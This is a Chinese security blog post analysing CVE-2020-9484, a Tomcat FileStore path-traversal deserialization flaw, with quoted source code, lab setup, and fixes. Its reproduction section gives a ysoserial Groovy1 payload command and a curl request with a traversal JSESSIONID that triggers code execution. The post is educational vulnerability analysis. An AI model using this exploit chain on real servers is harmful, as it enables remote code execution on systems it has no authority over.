


# CVE-2020-9484 Apache Tomcat 反序列化漏洞浅析 - i 春秋 - 博客园

> 原文：[`www.cnblogs.com/ichunqiu/p/13218065.html`](https://www.cnblogs.com/ichunqiu/p/13218065.html)



本文是 i 春秋论坛作家「Ybwh」表哥原创的一篇技术文章，浅析 CVE-2020-9484 Apache Tomcat 反序列化漏洞。


**01 漏洞概述**

这次是因为错误配置和
org.apache.catalina.session.FileStore 的 LFI 和反序列化漏洞引起的 RCE。当配置了
org.apache.catalina.session.PersistentManager 并且使用
org.apache.catalina.session.FileStore 来储存 session 时, 用户可以通过
org.apache.catalina.session.FileStore 的一个 LFI 漏洞来读取服务器上任意以 .session 结尾的文件，然后通过反序列化来运行.session 文件。

默认情况是使用
org.apache.catalina.session.StandardManager, 将 session 储存到内存，而 PersistentManager 会将不常用的 session swap out，从而减少内存占用。

此处使用 Tomcat 10.0.0-M4 来做分析，这里主要是 FileStore 的 LFI 漏洞可以反序列化任意路径上的.session 文件，如果同时存在文件上传漏洞的话就是 RCE 了。

首先看 FileStore 源码，当用户请求里带有 JSESSIONID 时，会运行存在问题的 load 方法：

```
 public Session load(String id) throws ClassNotFoundException, IOException {        // Open an input stream to the specified pathname, if any        File file = file(id);        if (file== null || !file.exists()) {            return null;        }        Context context = getManager().getContext();        Log contextLog = context.getLogger();        if (contextLog.isDebugEnabled()){            contextLog.debug(sm.getString(getStoreName()+".loading", id,file.getAbsolutePath()));        }        ClassLoader oldThreadContextCL = context.bind(Globals.IS_SECURITY_ENABLED, null);        try (FileInputStreamfis = new FileInputStream(file.getAbsolutePath());                ObjectInputStream ois = getObjectInputStream(fis)) {            StandardSession session = (StandardSession) manager.createEmptySession();            session.readObjectData(ois);            session.setManager(manager);            return session;        } catch (FileNotFoundExceptione) {            if (contextLog.isDebugEnabled()){                contextLog.debug("No persisted data file found");            }            return null;        } finally {            context.unbind(Globals.IS_SECURITY_ENABLED,oldThreadContextCL);        }    }
```

load 会先将 session id 转换成 file object 查看文件是否存在，如果存在的话会读取文件. file object 会为输入的 id 添加.session 后缀，然而并没有验证文件的目录：

```
 private File file(String id) throws IOException{        if (this.directory == null) {            return null;        }        String filename= id + FILE_EXT;        File file = new File(directory(), filename);        return file;    }
```

org.apache.catalina.session.getObjectInputStream，方法：

```
 protected ObjectInputStream getObjectInputStream(InputStream is) throws IOException{        BufferedInputStream bis = new BufferedInputStream(is);        CustomObjectInputStream ois;        ClassLoader classLoader = Thread.currentThread().getContextClassLoader();        if (managerinstanceof ManagerBase) {            ManagerBase managerBase = (ManagerBase) manager;            ois = new CustomObjectInputStream(bis, classLoader, manager.getContext().getLogger(),                    managerBase.getSessionAttributeValueClassNamePattern(),                    managerBase.getWarnOnSessionAttributeFilterFailure());        } else {            ois = new CustomObjectInputStream(bis, classLoader);        }        return ois;    }
```

getObjectInputStream 方法运行

org.apache.catalina.util.CustomObjectInputStream，获取 gadget 类，然后就反序列化 session 文件了。

**02 影响版本**

Apache Tomcat：10.0.0-M1 to 10.0.0-M4，9.0.0.M1 to 9.0.34，8.5.0 to 8.5.54 and 7.0.0 to7.0.103

**03 环境搭建**

本次使用 linux 进行测试，设置一个 Tomcat 服务：

1、下载 Tomcat 10.0.0-M4；

2、将文件解压之后放入/usr/local/tomcat；

3、修改
/usr/local/tomcat/conf/context.xlm，添加 Manager；

```
<Context>    <!-- Default set of monitored resources. If one of these changes,the    -->    <!-- web application will be reloaded.                                   -->    <WatchedResource>WEB-INF/web.xml</WatchedResource>    <WatchedResource>WEB-INF/tomcat-web.xml</WatchedResource>    <WatchedResource>${catalina.base}/conf/web.xml</WatchedResource>    <!-- Uncomment this to enable session persistence across Tomcatrestarts -->    <!--    <Manager pathname="SESSIONS.ser" />    -->    <Manager className="org.apache.catalina.session.PersistentManager">            <Store className="org.apache.catalina.session.FileStore" directory="/tomcat/sessions/"/>    </Manager></Context>
```

directory 设置成什么都没有关系，因为不过滤 ../

4、下载 groovy-2.3.9.jar；

5、将 groovy-2.3.9.jar 放入 /usr/local/tomcat/lib；

6、执行
/usr/local/tomcat/bin/catalina.shstart，运行 Tomcat。


**04 漏洞复现**

目标是在服务器上执行 touch /tmp/2333，假设.session 文件已经被上传到服务器的已知位置。

1、下载 ysoserial 一个生成 java 反序列化 payload 的.jar 包；

2、执行 java
-jarysoserial-master-30099844c6-1.jar Groovy1 "touch /tmp/2333" >/tmp/test.session 生成 payload；


3、执行

curl'http://127.0.0.1:8080/index.jsp'-H'Cookie:JSESSIONID=../../../../../tmp/test'


虽然有报错但是反序列化已经执行了

4、执行 ls /tmp 查看结果：


**05 修复方式**

对比 Tomcat 10.0.0-M4 和 Tomcat 10.0.0-M5 的 FileStore，源码可以发现做了目录验证。



修复方式就是升级，或者配置 WAF，过滤掉../之类的字符串，或者不使用 FileStore。

以上是今天要分享的内容，大家看懂了吗？